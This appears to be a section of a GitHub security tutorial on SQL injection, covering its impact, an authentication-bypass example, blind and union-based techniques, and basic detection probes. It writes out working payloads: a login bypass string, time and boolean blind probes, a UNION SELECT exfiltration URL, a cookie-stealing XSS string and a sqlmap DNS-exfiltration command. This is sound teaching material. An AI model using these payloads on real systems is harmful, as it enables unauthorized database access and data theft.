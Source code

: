 #### 2.1. SQL injection

SQL injection occurs when malicious user input breaks the original SQL statement to inject 
arbitrary SQL code and manipulate the DBMS. This typically happens when untrusted user-input 
is concatenated (at application layer) with the SQL queries to be executed on the database-server.

When exploited successful, it allows unauthorized retrieval of potentially sensitive data:

- national (GOV domain) databases got leaked in the past using this technique
- one of oldest attacks that still persists nowadays o_O
- users might get their credit-card data/national ID compromised 
- data can be stolen for monetary purposes (dump DB, corrupt DB, ask for money to provide original records)


#### 2.2. Risk and impact

From a business perspective:

- impact is typically – HIGH (can lead to RCE in some edge cases)
- data loss, data corruption (pray BTC for backups; may lead to denial of service)
- once data was tampered with you cannot rely on it anymore (integrity is compromised)
- companies will suffer massively when their assets are vanished 
- sometimes they even go bank-robbed
- can lead to reflected XSS via error message: `/edit.php?id=1'<script>alert(document.cookie)</script>`

#### 2.3. Example - intended functionality

Example of POST request for user authentication:

```json
{
   "username" : "peter",
   "password" : "Wj*Fn*7krIS_MGO"
}
```

The MySQL query looks like:

```sql
SELECT * FROM users WHERE username='peter' AND password=hash('Wj*Fn*7krIS_MGO');
```


#### 2.4. Example - SQL injection

Example of POST request for user authentication:

```json
{
   "username" : "admin' AND 1=1-- -",
   "password" : "123"
}
```

The MySQL query looks like:

```sql
SELECT * FROM users WHERE username='admin' AND 1=1-- -' AND password=hash('123');
```
!! This is classic authentication bypass !! :)

Note:

- the SQL meta-character `'` forces the closing of the original query
- continuation of valid but unintended SQL query `AND 1=1`
- followed by MySQL comment `-- -` that tells DBMS to ignore the rest of the original query


#### 2.5. SQL injection types


1. Classic - easy to exploit, uses the same DB communication channel:
  - error-based: attacker relies on DBMS errors to extract data
  - union-based: uses UNION SELECT to combine extraction of DB results

2. Blind – attacker monitors view states according to malicious input:
  - time based: 
    - `page.php?id=3' AND sleep(5)-- -` (will delay HTTP response with 5+ seconds)

  - boolean based - attacker tries different payloads until output changes:
    - `page.php?id=-3' OR 1=1-- -` (evaluated as `true`)
    - `page.php?id=3' AND 1=2-- -` (evaluated as `false`)

  - arithmetic:
    - `page.php?id=3` returns same as `page.php?id=4-1`
    - `+` should always be URL encoded `%2b` - otherwise it means `[SPACE]` in the HTML request

3. Out-of-channel (data cannot be leaked through the same HTTP/application channel - SSRF like):
   - read/write file
   - DNS channel `sqlmap ... --dns-domain opendns.online`
   - FTP/email


#### 2.6. SQL injection - `UNION` based exfiltration

In SQL injection attacks, `UNION SELECT` & `ORDER BY` statements can be used to find the column index that exfiltrates data.

a) `SELECT ... FROM ... ORDER BY 3` - find the correct number of columns
b) `SELECT ... FROM ... UNION SELECT 1,2,3` - look for one (or more) of the column numbers to show up on the page

Note: if no. `2` appears in the response, the second column can be used for retrieval of data.

Also, at first we don't know what the original SQL select statement is, but we can iterate by:
```
UNION SELECT 1
UNION SELECT 1,2  
UNION SELECT 1,2,3 ...
GROUP BY 1
GROUP BY 2
GROUP BY 3
```
Both techniques can be used in SQLi to determine the number of columns for a valid `UNION SELECT`.

Concrete example:
```
http://example.com/index.php?s=1&l1=-572 UNION SELECT 1,2,3,4,5,6,7,8,9,(CURRENT_USER()),11,12,13,14,15,16,
17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,
54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,
91,92,93,94,95-- -
```
In this example, column no. `10` (gets displayed in the HTTP response) was used to exfiltrate the 
database user of the web application.

#### 2.7. Basic detection payloads

```
/?p=1
/?p=1'
/?p=1"
/?p=[1]
/?p[]=1
/?p=1`
/?p=1\
/?p=1/*'*/
/?p=1/*!666'*/
/?p=1'||'aaaa'||'
/?p=1' or '1'='1
/?p=1 or 1=1
/?p='or''='
```
